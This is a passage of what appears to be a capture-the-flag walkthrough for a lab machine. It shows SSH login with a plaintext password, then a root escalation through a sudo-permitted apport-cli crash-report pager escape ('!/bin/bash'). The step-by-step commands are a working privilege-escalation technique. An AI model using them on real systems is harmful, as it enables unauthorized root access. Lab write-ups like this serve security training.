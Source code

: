 * SSH login to logan
  * `ssh logan@10.10.11.242`
    * PW: tequieromucho
  * cat user.txt

<figure><img src=".gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

### Root flag

* `sudo -l`

<figure><img src=".gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

* we can run /usr/bin/apport.cli
* apport-cli -v
  * 2.20.11
* [VULN](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) -> /var/crash/xxx.crash
  * lets create some .crash file...
  * Linux saves crash reports into /var/crash dir...we just need to get to pager
    * create a crash file
      * ```
        sleep 13 & killall -SIGSEGV sleep
        ```

<figure><img src=".gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

* cd /var/crash
* ls
*   `sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash`

    * `Please Choose (S/V/K/I/C):`` `**`V`**
    * **after obtaining :**
      * **`!/bin/bash`**
        * BOOM, we have root privileges
